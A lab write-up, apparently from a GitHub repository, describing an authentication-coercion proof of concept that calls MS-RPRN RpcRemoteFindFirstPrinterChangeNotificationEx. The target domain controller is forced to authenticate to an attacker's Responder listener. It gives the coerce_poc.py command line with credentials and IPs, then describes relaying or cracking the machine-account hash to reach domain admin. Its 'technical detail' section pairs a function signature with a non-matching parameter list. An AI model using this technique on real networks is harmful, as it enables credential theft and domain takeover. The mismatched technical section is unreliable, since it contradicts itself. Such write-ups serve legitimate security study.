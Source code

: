 # MS-RPRN - Remote call to RpcRemoteFindFirstPrinterChangeNotificationEx (opnum 65)

## Summary

 - **Protocol**: [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1)

 - **Protocol UUID**: 12345678-1234-abcd-ef00-0123456789ab

 - **Protocol version**: 1.0

 - **Function name**: [`RpcRemoteFindFirstPrinterChangeNotificationEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/eb66b221-1c1f-4249-b8bc-c5befec2314d)

 - **Function operation number**: `65`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\spoolss` and bind to (uuid `12345678-1234-abcd-ef00-0123456789ab`, version `1.0`) in order to perform calls to RPC functions of the `MS-RPRN` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\spoolss`. This pipe is connected to the protocol [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) and allows to call RPC functions of this protocol. It will then call the remote [`RpcRemoteFindFirstPrinterChangeNotificationEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/eb66b221-1c1f-4249-b8bc-c5befec2314d) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
RpcRemoteFindFirstPrinterChangeNotificationEx(...)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to ohter services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD RpcRemoteFindFirstPrinterChangeNotificationEx(
    [in, string, unique] STRING_HANDLE pPrinterName,
    [out] PRINTER_HANDLE* pHandle,
    [in, string, unique] wchar_t* pDatatype,
    [in] DEVMODE_CONTAINER* pDevModeContainer,
    [in] DWORD AccessRequired
);
```


 - **hPrinter**: A handle to a printer or server object that was opened by RpcAddPrinter (section 3.1.4.2.3), RpcAddPrinterEx (section 3.1.4.2.15), RpcOpenPrinter (section 3.1.4.2.2), or RpcOpenPrinterEx (section 3.1.4.2.14).


 - **fdwFlags**: Flags that specify the conditions that are required for a change notification object to enter a signaled state. A change notification MUST occur when one or more of the specified conditions are met.

    This parameter specifies a bitwise OR of zero or more Printer Change Values (section 2.2.4.13). The rules governing printer change values are specified in section 2.2.4.13.


 - **fdwOptions**: The category of printers for which change notifications are returned. This parameter MUST be one of the supported values specified in Printer Notification Values (section 2.2.3.8).


 - **pszLocalMachine**: A pointer to a string that represents the name of the client computer. The rules governing server names are specified in section 2.2.4.16.


 - **dwPrinterLocal**: An implementation-specific unique value that MUST be sufficient for the client to determine whether a call to RpcReplyOpenPrinter (section 3.2.4.1.1) by the server is associated with the hPrinter parameter in this call.<369>


 - **pOptions**: A pointer to an RPC_V2_NOTIFY_OPTIONS (section 2.2.1.13.1) structure that specifies printer or job members that the client listens to for notifications. For lists of members that can be monitored, see Printer Notification Values (section 2.2.3.8) and Job Notification Values (section 2.2.3.3).

    The value of this parameter can be NULL if the value of fdwFlags is nonzero.


## References

 - Documentation of protocol [MS-RPRN]: Print System Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1


 - Documentation of function `RpcRemoteFindFirstPrinterChangeNotificationEx`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/eb66b221-1c1f-4249-b8bc-c5befec2314d